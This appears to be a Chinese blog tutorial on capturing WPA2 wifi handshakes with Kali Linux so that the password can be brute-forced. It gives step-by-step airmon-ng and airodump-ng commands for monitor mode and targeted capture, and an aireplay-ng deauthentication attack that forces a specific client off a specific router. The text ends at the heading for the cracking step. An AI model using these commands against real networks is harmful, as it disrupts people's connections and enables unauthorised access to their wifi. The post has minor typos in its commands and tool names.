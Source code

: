 ```yaml
---
title: KaliLinux捕获wifi握手包，EWAS爆破wifi密码
tags: [安全记录]
---
```


## 前言

这种方式仅是了解相关知识，没有太大的实操意义

## 准备

* Kali Linux (直接下载虚拟机版) [Get Kali | Kali Linux](https://www.kali.org/get-kali/#kali-virtual-machines)
* VMWare
* 支持嗅探的无线网卡

## 原理

在目标wifi进行连接时，会与建立连接的手机之间发送握手包，其原理就是通过握手包里的偏移量反穷举出wifi密码 （要不咋说是爆破呢）具体协议可通过wireshark捕获后查看（还没搞懂整个wpa2-psk相关的具体协议）

## Kali Linux重置密码

2023新版的kali 默认账户密码是 **kali/kali**

先以 kali/kali 普通用户的身份登录

然后切换 root 用户

```shell
sudo su
```

root密码也是 **kali**

然后更换root账户密码

```bash
psswd root
```

## 设置中文

在root账户下执行以下命令

```shell
dpkg-reconfigure locales
```
找到**en_US.UTF-8 UTF-8**选项，按空格键将其进行取消

![](https://muouren7hexo-1305003515.cos.ap-chengdu.myqcloud.com/HexoPic/202306241323962.png)

选择语言**zh_CN.UTF-8 UTP-8**，空格选择，按tab键选择ok

在此处选择zh_CN.UTF-8字符编码，在<0k> 处按空格键进行确认

![](https://muouren7hexo-1305003515.cos.ap-chengdu.myqcloud.com/HexoPic/202306241325766.png)

然后重启

## 握手包捕获

先将网卡连接到虚拟机

先查看当前的网卡设备，后面带有 usb的就是嗅探的网卡

```bash
airmon-ng  #查看当前的网卡设备
```



![](https://muouren7hexo-1305003515.cos.ap-chengdu.myqcloud.com/HexoPic/202306241332137.png)

将网卡切换至监听模式

```bash
airmon-ng start wlan0 ## start后面跟设备的接口名
```

再用airmon-ng命令查看，当设备名后面多了个**mon**的后缀就表示已经切换至监听状态了

![](https://muouren7hexo-1305003515.cos.ap-chengdu.myqcloud.com/HexoPic/202306241334541.png)

查看当前所有的热点信息

```bash
airodump-ng wlan0mon  ## 后面跟监听网卡的接口名
```

![](https://muouren7hexo-1305003515.cos.ap-chengdu.myqcloud.com/HexoPic/202306241340725.png)

开始捕获握手包

以下 -c 指定信道 对应CH  -w 指定写入文件，最后跟要使用的网卡设备

```shell
airodump-ng -c 1 --bssid B0:45:02:D2:B7:14 -w shaoyu wlan0mon
```

在捕获的同时使用断网攻击

-0 指定攻击等级，-a 指定热点源，一般是是路由器wifi，-c 指定客户端，一般是手机

```bash
aireplay-ng -0 10 -a B0:45:02:D2:B7:14 -c 7C:D6:61:85:FD:BF wlan0mon
```

## ESWA万能破解

